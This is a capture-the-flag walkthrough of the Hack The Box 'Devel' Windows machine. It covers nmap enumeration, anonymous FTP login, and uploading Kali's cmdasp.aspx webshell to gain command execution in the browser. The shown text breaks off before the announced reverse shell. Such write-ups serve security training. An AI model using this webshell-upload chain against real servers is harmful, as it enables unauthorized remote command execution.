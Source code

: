 ```yaml
---
title: Devel
date: 2020-05-16 16:00
description: Hack The Box Walkthrough
featured_image: '/images/blog/devel/devel.jpg'
tags: ['Hack The Box']
---
```


Here is another box from Hack the Box (HTB) that is simple and great for beginners. In this HTB, I will not be using Metasploit to access the box. Instead, I'll be creating a SMB server to obtain a reverse shell and gain access to the machine. 

<h2><a class="header_post" name="hackthebox">Hack The Box</a></h2>

* Operating System: Windows
* Difficulty: Easy

<h2><a class="header_post" name="enumeration">Enumeration</a></h2>

Let's start with the nmap scan. 

<img src="/images/blog/devel/ipaddress.jpg" alt="nmap scan">

	PORT   STATE SERVICE VERSION
	21/tcp open  ftp     Microsoft ftpd
	| ftp-anon: Anonymous FTP login allowed (FTP code 230)
	| 03-18-17  02:06AM       <DIR>          aspnet_client
	| 05-20-20  07:47AM                 1442 cmdasp.aspx
	| 03-17-17  05:37PM                  689 iisstart.htm
	| 05-20-20  07:31AM                    7 test.html
	|_03-17-17  05:37PM               184946 welcome.png
	| ftp-syst: 
	|_  SYST: Windows_NT
	80/tcp open  http    Microsoft IIS httpd 7.5
	| http-methods: 
	|_  Potentially risky methods: TRACE
	|_http-server-header: Microsoft-IIS/7.5
	|_http-title: IIS7

From the results, we can see that port 21 (ftp) is open and allows for anonymous ftp login. 

### Website Information 

First, let's access the FTP service through the web browser by heading to 10.10.10.5 

<img src="/images/blog/devel/website.png" alt="access ftp through web browser">

Nothing much here. Checked the source code--nothing either. 

Next, I opened up Burp Suite to take a look at the response headers. That said, http headers are not always accurate since developers can change the information... still a good idea to check though.

<img src="/images/blog/devel/httpheader.jpg" alt="burp suite header information">

From the response header, we can see that the application framework is using ASP.NET so we might be able to use an .aspx file later on. 

### FTP Information 

In the nmap scan, we found out that we can login to the ftp service anonymously. So I accessed the ftp service through terminal. 

	root@kali:~# ftp 10.10.10.5
	Connected to 10.10.10.5.
	220 Microsoft FTP Service
	Name (10.10.10.5:root): anonymous
	331 Anonymous access allowed, send identity (e-mail name) as password.
	Password:
	230 User logged in.
	Remote system type is Windows_NT.

That worked. Let's see if we can upload a file onto the ftp service. 

* In the local terminal window, `echo hello > test.html`
* In the ftp service terminal window, `put test.html`

Looks like it uploaded. To double-check I went to the web browser to see if it's visible. 

<img src="/images/blog/devel/test.png" alt="testing an uploaded file">

Now recall in the **Website Information** section we found out that ftp was running ASP.NET framework, so we can try using the `put` command to upload an .aspx file.

I searched in Kali Linux and found that they have a .aspx available in the webshells directory. This file will provide us with the ability to execute commands whilst in the web browser.

	root@kali:~# locate *.aspx
	/usr/share/webshells/aspx/cmdasp.aspx
	
We can copy the file into our current directory and then upload it to the ftp service.

* In the local terminal window, `cp /usr/share/webshells/aspx/cmdasp.aspx .`
* In ftp service terminal window, `put cmdasp.aspx`

Worked! Let's access the webshell by going to 10.10.10.5/cmdasp.aspx

<img src="/images/blog/devel/dir.png" alt="dir command">

* `dir` = displays information about the files and directories.

Last part of enumeration is to confirm that both the target and our local machine can talk to each other. To test this, we can run a ping test.

In the local terminal window, `tcpdump -i tun0 -n icmp`

	listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes                                                                                    
	16:59:24.588581 IP 10.10.10.5 > 10.10.14.31: ICMP echo request, id 1, seq 5, length 40                                                                  
	16:59:24.588659 IP 10.10.14.31 > 10.10.10.5: ICMP echo reply, id 1, seq 5, length 40                                                                    
	16:59:25.613355 IP 10.10.10.5 > 10.10.14.31: ICMP echo request, id 1, seq 6, length 40                                                                  
	16:59:25.613456 IP 10.10.14.31 > 10.10.10.5: ICMP echo reply, id 1, seq 6, length 40                                                                    
	16:59:26.637219 IP 10.10.10.5 > 10.10.14.31: ICMP echo request, id 1, seq 7, length 40                                                                  

* `icmp` = print only icmp packets.
* `-n` = don't covert addresses (host names, port numbers) to names.

In web browser, `ping 10.10.14.31`

<img src="/images/blog/devel/ping.png" alt="ping test">

The response confirms that we've received a ping request from the ftp server--awesome. Now that we have command execution and can communicate to/from the box, our next step is turn this into an interactive reverse shell.

### Summary 

A few things to note before we move forward: 

* We now have the ability to input commands. 
